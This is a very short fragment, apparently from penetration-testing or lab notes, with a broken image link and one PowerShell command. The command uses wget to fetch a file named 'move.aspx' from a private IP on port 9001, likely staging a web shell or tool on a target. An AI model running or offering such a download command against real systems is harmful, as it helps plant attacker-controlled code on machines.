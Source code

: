 ```powershell
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
```

[[25 - PowerShell#^ccee32]]

